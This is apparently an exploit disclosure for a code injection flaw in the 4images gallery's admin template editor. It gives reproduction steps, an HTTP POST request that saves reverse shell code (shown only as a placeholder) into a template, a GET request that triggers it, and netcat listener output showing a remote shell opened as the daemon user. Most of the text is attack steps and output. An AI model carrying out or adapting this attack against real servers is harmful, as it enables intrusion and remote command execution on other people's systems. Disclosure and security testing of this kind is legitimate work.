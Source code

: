 
Code Injection


To reproduce do the following:

1. Login as administrator user
2. Browse to "General" -> " Edit Templates" -> "Select Template Pack" -> "default_960px" -> "Load Theme"
3. Select Template "categories.html"
4. Paste reverse shell code
5. Click "Save Changes"
6. Browse to "http://host/4images/categories.php?cat_id=1"


// HTTP POST request showing reverse shell payload

POST /4images/admin/templates.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]

__csrf=c39b7dea0ff15442681362d2a583c7a9&action=savetemplate&content=[REVERSE_SHELL_CODE]&template_file_name=categories.html&template_folder=default_960px[...]



// HTTP redirect response to specific template

GET /4images/categories.php?cat_id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:100.0) Gecko/20100101 Firefox/100.0
[...]


# nc -kvlp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from localhost [127.0.0.1] 43032
Linux kali 6.0.0-kali3-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.0.7-1kali1 (2022-11-07) x86_64 GNU/Linux
 13:54:28 up  2:18,  2 users,  load average: 0.09, 0.68, 0.56
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
kali     tty7     :0               11:58    2:18m  2:21   0.48s xfce4-session
kali     pts/1    -                11:58    1:40  24.60s  0.14s sudo su
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$ 








